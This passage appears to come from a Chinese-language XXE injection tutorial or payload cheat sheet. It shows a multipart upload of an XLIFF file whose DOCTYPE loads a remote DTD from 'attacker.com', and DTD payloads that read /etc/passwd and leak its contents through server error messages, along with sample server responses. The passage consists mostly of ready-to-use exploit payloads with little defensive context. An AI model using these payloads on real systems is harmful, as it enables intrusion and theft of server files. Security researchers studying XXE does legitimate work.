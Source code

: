 服务器响应时出错：

```plain
{"status":500,"error":"Internal Server Error","message":"Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."}
```

#### [Exfiltrating Data via Out of Band](#toc_exfiltrating-data-via-out-of-band)

```plain
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

#### [Exfiltrating Data via Error Based](#toc_exfiltrating-data-via-error-based)

DTD 文件：

```plain
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```

服务器响应：

```plain
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```

好消息是当请求一个不存在的文件时会将反映在错误消息中。接下来是添加文件内容。

DTD File:

```plain
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```

通过 HTTP 发送的错误输出中成功打印了文件的内容。

### [RSS - XEE](#toc_rss-xee)

使用 RSS 格式的 XML 也可利用出 XXE 的漏洞
